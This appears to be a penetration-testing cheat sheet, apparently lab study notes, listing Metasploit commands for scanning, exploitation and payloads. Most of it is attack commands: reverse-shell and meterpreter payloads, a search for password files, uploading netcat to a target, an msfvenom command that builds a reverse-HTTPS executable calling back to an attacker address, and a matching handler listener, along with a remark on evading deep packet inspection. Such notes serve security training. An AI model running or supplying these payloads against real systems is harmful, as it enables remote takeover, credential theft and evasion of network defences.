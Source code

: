 # Metasploit Pre Exploitation
- options:
  - global variables: `set -> setg` for THREADS and/or RHOSTS, etc...
## Auxiliary Modules
- `show auxiliary`
### SNMP Auxiliary Module
- `search snmp`
  - example: `auxiliary/scanner/snmp/snmp_enum`
    - `use auxiliary/scanner/snmp/snmp_enum`
    - `info`
    - `show options`
    - `set ...`
    - `run`
### SMB Auxiliary Module
- `use auxiliary/scanner/smb/smb_version`

## Database Services
> Commands within metasploit
- `hosts`
- `db_nmap 192.168.31.200-254 --top-ports 20`
- `services -p 443`

## Exploit Modules
- `search pop3`
- `use ...`
- `show options`
- `set PAYLOAD windows/... (TAB to see more)`
- `set PAYLOAD windows/shell_reverse_tcp`
- `exploit`

## Payloads
> Staged and Non staged shell code.  
Mterpreter - staged multi-function payload that cn be extended in runtime.  

- `set PAYLOAD windows/meterpreter/reverce_tcp`
- `exploit`
- `meterpreter > help`
- commands
  - `sysinfo`, `getuid`, `search -f *pass*.txt`
  - `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`
  - `download c:\\windows\\system32\calc.exe /tmp/calc.exe`
  - `shell`
  - `exit -y`

## Additional payloads
- `use windows/meterpreter/reverse_https`
> Tunnel communication over HTTPS usil SSL, Inject he meterpreter server DLL via Reflective Dll Ijection payload (staged).
> Helps us avoid 'deep packet inspection' services.
- `use windows/meterpreter/reverse_tcp_allports`
> Try to connect back to the attacker machine on all possible ports (slowly)

## Binary payloads
- `msfvenom -l`
### The creation of the payload
- `msfvenom -p windows/meterpreter/reverse_https LHOST=kali-ip LPORT=443 -f exe --platform windows -a x86 > /var/www/html/reverse_met_https.exe`
### The creation of the matching listener
> The Multihandler Module (via msfconsole)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
show options
set LHOST 10.11.0.179
set LPORT 443
exploit
```
## Porting Exploits to MSF

# Metasploit Post Exploitation
